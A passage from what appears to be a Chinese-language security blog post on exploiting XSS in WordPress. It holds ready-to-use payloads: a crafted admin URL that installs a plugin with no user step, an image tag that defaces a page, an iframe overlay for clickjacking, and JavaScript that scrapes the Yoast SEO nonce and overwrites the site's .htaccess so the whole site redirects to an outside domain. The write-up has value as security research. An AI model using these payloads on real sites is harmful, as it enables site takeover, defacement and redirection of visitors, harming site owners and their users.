事实上，由于wordpress的特殊性，我们可以通过xss来请求安装插件来简化上面的攻击链，简化整个流程，当我们访问：

```
http://wordpress.site/wp-admin/update.php?action=install-plugin&updraftplus_noautobackup=1&plugin=wp-crontrol&_wpnonce=391ece6c0f
```

wp就会自动安装插件，如果我们将包含恶意代码的模块上传到插件库中，通过上述请求自动安装插件，再启用插件，那么一样可以完整整个攻击。


## xss的破坏式利用

上文中主要是展示了xss配合特性对前端渗透的一些攻击方式，但是很多时候渗透的目的并不一定要隐秘，对于黑产或者其他目的的渗透来说，可能会有一些破坏式的利用方式。

当攻击者的目的并不是为了渗透，而是为了恶作剧、挂黑页，甚至只是为了单纯的搞挂网站，那么就不需要那么复杂的利用链，可以用一些更简单的方法。

```
<img src=//upload.wikimedia.org/wikipedia/commons/f/fd/Hack.png style=width:100%;height:100%>
```

这种方式一般应用于储存性xss漏洞点，比较接近恶作剧性质，因为不会危害到网站安全。

```
<iframe src="xxxxx" style="border:0;position: absolute;top: 0;right: 0;width: 100%;height: 100%" onload="{dom xss}"
```

通过上述payload，我们可以配合xss漏洞来造成点击劫持，或者更复杂的利用方式。这种漏洞一般比较适合新闻类站点的xss漏洞，在wordpress上我没找到合理的利用方式，就不展示demo了，贴一张brutelogic在ppt中的demo截图。

![image.png-432.7kB][11]

红箭头指向的标题是被xss修改后的标题。配合一些社工手段，这样的利用方式可能会造成大于攻击网站本身的破坏。

当然，还可以有更彻底的方式。在wordpress的插件yoast seo中，包含一个自带的功能可以修改整战根目录的.htaccess文件。

通过修改.htaccess，我可以直接让整个站跳到黑页、广告页等，达成我们想要的目的。

```

url = window.location.href;
url = url.split('wp-admin')[0];
p = 'wp-admin/admin.php?';
q = 'page=wpseo_tools&tool=file-editor';
s = "%23%20BEGIN%20WordPress%0A%3CIfModule%20mod_rewrite.c%3E%0ARedirect%20%2fwordpress4.8%20https%3A%2f%2florexxar.cn%0A%3C%2fIfModule%3E%0A%23%20END%20WordPress";


a = new XMLHttpRequest();
a.open('GET', url+p+q, 0);
a.send();

ss = '_wpnonce=' + a.responseText.match(/nonce" value="([^"]*?)"/g)[1].match(/\w+/g)[2] +
'&htaccessnew=' + s + '&submithtaccess=Save+changes+to+.htaccess';

b = new XMLHttpRequest();
b.open('POST', url+p+q, 1);
b.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
b.send(ss);
```


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/5gqfedhw93m0l2o493dgst32/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/kww6v2ictpq6lddemh75jx3z/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ove34bas780053hiabnb2ts8/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/o7s4w1t1woqsd80ywkl12sye/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/34ryqtulidaxi6r19rstgmrt/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/1w7njuxjgsdzutarkk9b7n4b/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/lrpbjdj87ac4l1b0v4iwk27v/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/y240zcqh29dtqe84zwfyb4ya/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/s0h4cv5ir3z9ytdkn4rw69r9/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/t74hbh21xgwstf6rmehftm01/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/k6fp1b0qibh5a7j7r442oeu4/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ku5sh6qlu6ygb4v3v8mm1wxy/image.png
  [13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/o6sgylp105ljwhiqc8b88goa/image.png